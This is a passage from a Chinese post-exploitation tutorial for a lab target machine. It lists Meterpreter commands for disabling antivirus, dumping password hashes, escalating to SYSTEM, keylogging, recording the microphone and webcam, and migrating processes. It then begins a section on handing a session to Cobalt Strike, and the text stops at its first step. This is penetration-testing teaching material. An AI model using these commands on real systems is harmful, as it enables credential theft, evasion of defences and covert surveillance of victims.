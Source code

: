 ![image-20241009091113749](https://image.201068.xyz/assets/38.后渗透/image-20241009091113749.png)

#### 3.靶机上线

![image-20241009091155418](https://image.201068.xyz/assets/38.后渗透/image-20241009091155418.png)

![image-20241009091138655](https://image.201068.xyz/assets/38.后渗透/image-20241009091138655.png)

接下来是利用漏洞获取更多的靶机信息并进一步扩大施展空间。

```python
screenshot							    靶机屏幕截屏并保存到root中
sysinfo 								获取靶机系统信息
idletime: 								靶机开机时间
run post/windows/manage/enable_rdp		  打开远程桌面服务
run post/windows/manage/killav			  关闭杀毒软件
run hashdump 							查看系统账户密码的hash值
shell									获取shell  
```
##### shell相关命令

```python
getuid      查看当前权限
getsystem   尝试获取system权限
shell       获取当前权限shell会话
ps          列出正在运行的进程
pkill       按名称终止进程
kill        按PID终止进程
reboot      重启
shutdown    关机
upload      上传文件(格式参考:upload /root/1.txt -> d:/)
download    下载文件(格式参考:download c:/1.txt -> /root/)

keyboard_send   令对方键盘输入(参考格式:keyboard_send ilovecc)
keyscan_start   开始捕获击键（开始键盘记录）
keyscan_dump    转储按键缓冲（下载键盘记录）
keyscan_stop    停止捕获击键（停止键盘记录）

record_mic      麦克风录制
screenshot      截图截取对方目前桌面的截图
webcam_snap     摄像头拍摄一张照片
webcam_stream   持续监控摄像头
getpid          查看meterpreter shell的进程号
migrate +稳定进程号 	转移进程
  也可以直接用run post/windows/manage/migrate进行自动寻找稳定进程转换。
```

### msf会话转移至cs

#### msf转移会话

##### 1.cs开启http监听端口

